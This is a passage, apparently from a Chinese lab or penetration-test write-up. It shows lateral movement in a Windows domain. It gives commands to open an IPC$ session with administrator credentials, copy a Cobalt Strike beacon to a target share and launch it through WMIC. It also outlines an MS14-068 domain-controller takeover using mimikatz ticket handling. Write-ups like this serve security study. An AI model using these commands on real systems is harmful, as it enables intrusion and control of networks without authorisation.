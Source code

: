 ### IPC$

可以直接psexec肯定是最方便的，其实也可以使用ipc连接

```
net use \\10.10.10.135\ipc$ /user:administrator "P@55w0rd!"

上传cs木马: copy c:\users\public\beacon2.exe \\10.10.10.135\c$\users\public\beacon2.exe
执行命令:   wmic /node:10.10.10.135 /user:ack123\administrator /password:P@55w0rd! process call create "c:\users\public\beacon2.exe"
```

### MS14-068

![image-20231122192854793](images/58.png)

在域控中其实是没有找到ms14-068的补丁的，所以按理说应该是可以直接通过ms14-068拿下域控

域成员密码是可以cmd5查出来的，不过要付费，应该是`QWEasd.7788`，域的sid可以通过mimikatz的到

也可以用msf

![image-20231122194403007](images/59.png)

然后在mimikatz中导入

```
kerberos::clist "20231122193642_default_10.10.10.135_mit.kerberos.cca_245882.bin" /export /
```

接下来会生成一个kirbi文件
